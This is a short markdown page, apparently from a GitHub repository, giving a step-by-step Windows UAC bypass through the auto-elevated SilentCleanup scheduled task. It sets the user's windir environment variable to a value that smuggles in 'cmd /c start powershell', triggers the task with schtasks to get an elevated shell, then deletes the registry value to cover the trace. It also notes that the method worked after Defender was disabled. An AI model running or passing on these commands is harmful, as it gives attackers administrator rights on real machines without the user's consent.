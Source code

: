 # Silent Cleanup Task
Silent Cleanup is an auto-elevated task located at `%windir%\system32\cleanmgr.exe`

### Adding Registry Keys
```CMD
reg add "HKCU\Environment" /v "windir" /d "cmd /c start powershell&REM " >nul
```

### Running Silent Cleanup
```CMD
schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul
```

### Cleaning Up
```CMD
reg delete "HKCU\Environment" /v "windir" /F
```

### Notes
- Defender blocks the user from running SilentCleanup
- Worked on Windows 10 Pro N 21H2 Build 19044.1288 after disabling Defender.